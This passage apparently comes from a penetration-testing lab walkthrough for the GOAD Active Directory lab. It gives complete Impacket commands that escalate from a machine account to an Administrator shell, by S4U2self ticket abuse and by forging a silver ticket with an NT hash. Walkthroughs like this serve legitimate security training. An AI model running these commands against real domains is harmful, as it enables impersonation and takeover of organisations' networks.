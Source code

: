 - To do that the easiest way is using s4u2self abuse or create a silver ticket

### machine account to administrator shell

#### s4u2self abuse

- s4u2self abuse : we ask for a TGS as the Administrator domain user

```
export KRB5CCNAME=/workspace/acl/kingslanding.ccache
getST.py -self -impersonate "Administrator" -altservice "cifs/kingslanding.sevenkingdoms.local" -k -no-pass -dc-ip 192.168.56.10 "sevenkingdoms.local"/'kingslanding$'
```

- And than we use that ticket to connect as administrator

```bash
export KRB5CCNAME=/workspace/acl/Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
wmiexec.py -k -no-pass sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local
```

![acl_s4u2self_abuse.png](/assets/blog/GOAD/acl_s4u2self_abuse.png)


#### Silver ticket

- Another way to get a shell is by creating a silver ticket :

- Find the domain SID:

```bash
lookupsid.py -hashes ':33a43e326dad53a516dc06393281d2cc' 'sevenkingdoms.local'/'kingslanding$'@kingslanding.sevenkingdoms.local 0
```

![acl_lokupsid.png](/assets/blog/GOAD/acl_lokupsid.png)


- Create the silver ticket:

```bash
ticketer.py -nthash '33a43e326dad53a516dc06393281d2cc' -domain-sid 'S-1-5-21-1409754491-4246775990-3914137275' -domain sevenkingdoms.local -spn cifs/kingslanding.sevenkingdoms.local Administrator
```

- And use it :

```bash
export KRB5CCNAME=/workspace/acl/Administrator.ccache
wmiexec.py -k -no-pass sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local
```

![acl_silverticket.png](/assets/blog/GOAD/acl_silverticket.png)


Ok the fun with sevenkingdoms.local domain is over, now let's try some acl in the other domains.

## GPO abuse

